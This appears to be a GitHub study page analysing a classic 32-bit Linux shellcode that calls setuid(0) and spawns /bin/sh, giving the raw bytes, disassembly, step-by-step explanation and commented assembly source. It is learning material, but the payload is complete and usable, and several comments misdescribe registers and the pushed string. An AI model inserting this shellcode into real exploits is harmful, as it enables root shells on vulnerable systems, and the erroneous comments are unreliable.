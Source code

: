 ## Shellcode analysis case 1

----

#### Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80

```
```
Dissassembly-
0:  31 c0                   xor    eax,eax
2:  89 c3                   mov    ebx,eax
4:  b0 17                   mov    al,0x17
6:  cd 80                   int    0x80
8:  31 d2                   xor    edx,edx
a:  52                      push   edx
b:  68 6e 2f 73 68          push   0x68732f6e
10: 68 2f 2f 62 69          push   0x69622f2f
15: 89 e3                   mov    ebx,esp
17: 52                      push   edx
18: 53                      push   ebx
19: 89 e1                   mov    ecx,esp
1b: 8d 42 0b                lea    eax,[edx+0xb]
1e: cd 80                   int    0x80 
```
Executing the setuid(0) syscall 0x17:

For executing setuid(0) all you need to do is 

```assembly
xor    eax,eax ; zero's out the eax register
mov    ebx,eax ; clears ebx register
mov    al,0x17 ; SysCall 0x17 (sys_setuid16)
int    0x80    ; Executes syscall
```
Spawning a /bin/sh shell breakdown-

Pushes the text "\bin\sh" onto the stack which spawns the sh shell,  all you need to do is clear out the registers and put /bin/sh in little endian format onto the stack.

```assembly
xor    edx,edx ; zero out edx
push   edx     ; pushes edx to the stack
; spawning the shell
push   0x68732f6e ; little endian hex code "n\sh"
push   0x69622f2f ; little endian hex code "\\bi"
mov    ebx,esp    ; puts the address of /bin/sh into edx from esp
```
Since using PUSH puts something on top of the stack, ESP is pointing to it
we can utilize this and load the address of /bin/sh into ebx since its being pushed into ESP
```assembly
push   edx  ; pushing ebx to the stack
push   ebx  ; puts ebx on the stack
mov    ecx,esp  ; loading esp register into ecx
lea    eax,[edx+0xb] ;stores edx register + 11
int    0x80  ; interupt, starts it
```

## Commented /bin/sh Assembly
```assembly
global _start
section .data
_start:
        xor    eax,eax       ; zero's out the eax register
        mov    ebx,eax       ; clears ebx register
        mov    al,0x17       ; SysCall 0x17 (sys_setuid16)
        int    0x80          ; Executes syscall
        xor    edx,edx       ; zero out edx
        push   edx           ; pushes 0 to the stack
        push   0x68732f6e    ; little endian hex code "n\sh"
        push   0x69622f2f    ; little endian hex code "\\bi"
        mov    ebx,esp       ; ges /bin/sh address
        push   edx           ; pushing ebx to the stack
        push   ebx           ; puts ebx on the stack
        mov    ecx,esp       ; loading esp register into ecx
        lea    eax,[edx+0xb] ; stores edx register + 11
        int    0x80          ; interupt, starts it all

